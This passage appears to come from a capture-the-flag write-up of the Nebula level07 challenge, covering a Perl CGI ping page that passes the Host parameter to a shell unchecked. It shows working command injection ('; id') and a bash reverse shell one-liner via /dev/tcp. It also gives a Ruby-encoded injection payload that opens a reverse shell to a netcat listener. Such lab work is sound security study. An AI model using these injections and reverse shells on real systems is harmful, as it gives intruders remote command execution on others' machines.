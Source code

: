   print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
{% endcodeblock %}

The configuration file is stored in '/home/flag07/thttpd.conf'. 

Because there is no input validation, we have RCE:
{% codeblock %}
level07@nebula:~$ wget -qO- "http://127.0.0.1:7007/index.cgi?Host=127.0.0.1"
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.009 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.022 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.023 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.009/0.018/0.023/0.006 ms
</pre></body></html>

level07@nebula:~$ wget -qO- "http://127.0.0.1:7007/index.cgi?Host=127.0.0.1+%3b+id"
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.012 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.022 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.027 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.012/0.020/0.027/0.007 ms
uid=992(flag07) gid=992(flag07) groups=992(flag07)
{% endcodeblock %}

Inspired by [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
{% codeblock %}
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
{% endcodeblock %}
we can create reverse shell on port 1337 via bash, using ruby to encode our payload:

{% codeblock lang:ruby %}
sh-4.2$ nc -l 1337

sh-4.2$ ruby -e "print 'http://nebula:7007/index.cgi?Host=' + '127.0.0.1;bash -i >& /dev/tcp/127.0.0.1/1337 0>&1;'.split(//).map{|x| '%' + x.ord.to_s(16)}.join + \"\n\""
http://nebula:7007/index.cgi?Host=%31%32%37%2e%30%2e%30%2e%31%3b%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%32%37%2e%30%2e%30%2e%31%2f%31%33%33%37%20%30%3e%26%31%3b

sh-4.2$ wget -qO- "http://nebula:7007/index.cgi?Host=%31%32%37%2e%30%2e%30%2e%31%3b%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%32%37%2e%30%2e%30%2e%31%2f%31%33%33%37%20%30%3e%26%31%3b"
<html><head><title>Ping results</title></head><body><pre>
{% endcodeblock %}
